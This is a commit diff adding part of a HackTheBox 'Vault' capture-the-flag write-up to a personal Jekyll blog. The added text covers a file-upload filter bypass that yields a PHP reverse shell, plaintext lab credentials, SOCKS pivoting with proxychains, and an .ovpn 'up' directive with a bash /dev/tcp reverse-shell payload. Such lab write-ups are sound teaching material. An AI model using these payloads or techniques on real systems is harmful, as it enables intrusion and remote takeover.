

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-04-07-Hackthebox-Vault-Writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 5173 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update 2019-04-07 vault-writeup WIP

```diff
--- a/_posts/2019-04-07-Hackthebox-Vault-Writeup.md
+++ b/_posts/2019-04-07-Hackthebox-Vault-Writeup.md
@@ -112,4 +112,173 @@ Gobuster v2.0.0              OJ Reeves (@TheColonial)
 
 ### 2. Getting User
 
+In "/sparklays/design/design.html", we have a link to "/sparklays/design/changelogo.php".<br>
+"changelogo.php" has a form which we can upload a file.
+![placeholder](https://inar1.github.io/public/images/2019-04-07/2019-04-01-15-35-18.png)
+
+If we upload a image file, we can find it in the directory "/sparklays/design/uploads/".<br>
+This form has file upload restriction but by changing file extension to "php5" and Content-type, we can bypass the restriction.
+![placeholder](https://inar1.github.io/public/images/2019-04-07/2019-04-01-15-59-40.png)
+
+By accessing uploaded php code, we can achieve a reverse shell.
+{% highlight shell %}
+# Access http://10.10.10.109/sparklays/design/uploads/php-reverse-shell.php5
+root@kali:~# nc -nlvp 443
+listening on [any] 443 ...
+connect to [10.10.14.23] from (UNKNOWN) [10.10.10.109] 37380
+Linux ubuntu 4.13.0-45-generic #50~16.04.1-Ubuntu SMP Wed May 30 11:18:27 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
+ 05:43:31 up  8:51,  0 users,  load average: 0.00, 0.00, 0.00
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$
+{% endhighlight %}
+
+In "/home/dave/Desktop", we can find interesting files.
+{% highlight shell %}
+$ pwd
+/home/dave/Desktop
+
+$ ls -la
+total 20
+drwxr-xr-x  2 dave dave 4096 Sep  3  2018 .
+drwxr-xr-x 18 dave dave 4096 Sep  3  2018 ..
+-rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
+-rw-rw-r--  1 alex alex   14 Jul 17  2018 key
+-rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
+{% endhighlight %}
+
+In the contents of "/home/dave/Desktop/ssh", there is a ssh credential.<br>
+{% highlight shell %}
+dave:Dav3therav3123
+{% endhighlight %}
+
+We can have a ssh connection by taking advantage of that.
+{% highlight shell%}
+root@kali:~# ssh dave@10.10.10.109
+dave@10.10.10.109's password: # Dav3therav3123
+
+~~~
+
+Last login: Sun Sep  2 07:17:32 2018 from 192.168.1.11
+dave@ubuntu:~$
+{% endhighlight %}
+
+In the home directory, there is also an interesting file.
+{% highlight shell %}
+dave@ubuntu:~/Desktop$ cat Servers
+DNS + Configurator - 192.168.122.4
+Firewall - 192.168.122.5
+The Vault - x
+{% endhighlight %}
+
+We can execute nmap scanning for these servers by using <a href="https://github.com/rofl0r/proxychains-ng">Proxychains</a>.<br>
+At first, add some settings in "/etc/proxychains.conf"
+{% highlight shell %}
+root@kali:~# tail /etc/proxychains.conf
+#
+#       proxy types: http, socks4, socks5
+#        ( auth types supported: "basic"-http  "user/pass"-socks )
+#
+[ProxyList]
+# add proxy here ...
+# meanwile
+# defaults set to "tor"
+socks4 	127.0.0.1 9050
+{% endhighlight %}
+
+Then, create a ssh connection.
+{% highlight shell %}
+root@kali:~# ssh -D 9050 dave@10.10.10.109
+{% endhighlight %}
+
+Then, execute following command.<br>
+We can figure out on 192.168.122.4, ssh and http is running.
+{% highlight shell %}
+root@kali:~# proxychains nmap 10.10.10.109
+ProxyChains-3.1 (http://proxychains.sf.net)
+Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-01 18:20 EEST
+|S-chain|-<>-127.0.0.1:9050-<><>-10.10.10.109:80-<><>-OK
+|S-chain|-<>-127.0.0.1:9050-<><>-10.10.10.109:22-<><>-OK
+|S-chain|-<>-127.0.0.1:9050-<><>-10.10.10.109:139-<--timeout
+
+~~~
+
+|S-chain|-<>-127.0.0.1:9050-<><>-192.168.122.4:19350-<--timeout
+|S-chain|-<>-127.0.0.1:9050-<><>-192.168.122.4:9101-<--timeout
+Nmap scan report for 192.168.122.4
+Host is up (0.036s latency).
+Not shown: 998 closed ports
+PORT   STATE SERVICE
+22/tcp open  ssh
+80/tcp open  http
+
+Nmap done: 1 IP address (1 host up) scanned in 36.08 seconds
+{% endhighlight %}
+
+Then, seeing what is the content of http server.
+{% highlight shell %}
+root@kali:~# proxychains curl http://192.168.122.4/
+ProxyChains-3.1 (http://proxychains.sf.net)
+|S-chain|-<>-127.0.0.1:9050-<><>-192.168.122.4:80-<><>-OK
+<h1> Welcome to the Sparklays DNS Server </h1>
+<p>
+<a href="dns-config.php">Click here to modify your DNS Settings</a><br>
+<a href="vpnconfig.php">Click here to test your VPN Configuration</a>
+{% endhighlight %}
+
+We can try to open this website with browser(But generally don't run web browser with root !!)
+{% highlight shell %}
+root@kali:~# proxychains google-chrome --no-sandbox
+{% endhighlight %}
+![placeholder](https://inar1.github.io/public/images/2019-04-07/2019-04-01-19-27-37.png)
+
+In "/vpnconfig.php", we can find a form which we can edit / execute .ovpn file.
+![placeholder](https://inar1.github.io/public/images/2019-04-07/2019-04-01-19-25-19.png)
+
+After running netcat, by posting following data with "vpnconfig.php", we can achieve a reverse shell from VM "DNS"
+{% highlight shell %}
+remote 192.168.122.1
+dev tun
+nobind
+script-security 2
+up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/4444 0>&1'"
+{% endhighlight %}
+
+{% highlight shell %}
+dave@ubuntu:~$ nc -nlvp 4444
+Listening on [0.0.0.0] (family 0, port 4444)
+Connection from [192.168.122.4] port 4444 [tcp/*] accepted (family 2, sport 35236)
+bash: cannot set terminal process group (1123): Inappropriate ioctl for device
+bash: no job control in this shell
+root@DNS:/var/www/html#
+{% endhighlight %}
+
+user.txt is in directory "/home/dave":
+{% highlight shell %}
+root@DNS:/home/dave# cat user.txt
+cat user.txt
+a4947faa8d4e1f80771d34234bd88c73
+{% endhighlight %}
+
 ### 3. Getting Root
+
+In directory "/home/dave" on DNS, we can find an interesting file.
+{% highlight shell %}
+root@DNS:/home/dave# cat ssh
+cat ssh
+dave
+dav3gerous567
+{% endhighlight %}
+
+By following command, we can figure out that we can execute any command as root.
+{% highlight shell %}
+dave@DNS:/home$ sudo -l
+[sudo] password for dave:
+Matching Defaults entries for dave on DNS:
+    env_reset, mail_badpass,
+    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User dave may run the following commands on DNS:
+    (ALL : ALL) ALL
+{% endhighlight %}
```
Also changed, not shown: public/images/2019-04-07/2019-04-01-15-35-18.png (added), public/images/2019-04-07/2019-04-01-15-59-40.png (added), public/images/2019-04-07/2019-04-01-19-25-19.png (added), public/images/2019-04-07/2019-04-01-19-27-37.png (added).
